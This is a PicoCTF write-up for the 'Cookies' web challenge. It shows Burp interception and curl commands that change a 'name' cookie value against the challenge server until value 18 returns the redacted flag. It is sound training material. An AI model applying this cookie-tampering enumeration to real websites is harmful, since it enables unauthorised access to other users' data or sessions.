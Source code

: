 ```yaml
---
title: PicoCTF - Cookies
date: 2023-12-08
categories: [PicoCTF, Web Exploitation]
tags: [picoctf, web-exploitation, cookies, http-requests, burp-suit, curl]
img_path: /assets/picoctf/web_exploitation/cookies
published: true
---
```


![](cookie_banner.png)

Visiting the link:

![](home.png)

Putting `snickerdoodle` as input results to:

![](snickerdoodle_cookie.png)

Intercepting the traffic with Burp and refreshing the page:

![](0_snickerdoodle.png)

We have a cookie called `name` set to value `0`. Sending requests with different cookie values results to different responses, including the flag:

![](1_choc.png)

![](2_oat.png)

![](18_flag.jpg)

![](28_mac.png)

We can also do the same process using `curl`:

```shell
# getting the head info
curl http://mercury.picoctf.net:29649/ -I
HTTP/1.1 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 209
Location: http://mercury.picoctf.net:29649/
Set-Cookie: name=-1; Path=/
```

We can see there there is a cookie called `name` with the value of `-1`. We can set our own value and see what happens:

```shell
# setting cookie's value to 0
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=0;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
```

```shell
# setting cookie's value to 1
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=1;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
```

```shell
# setting cookie's value to 18
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=18;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
```

We notice that when the `name=18` it does not return any cookie back! So we can get the full response to see what's happening:

```shell
# getting the full response back
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=18;"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{<SNIP>}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```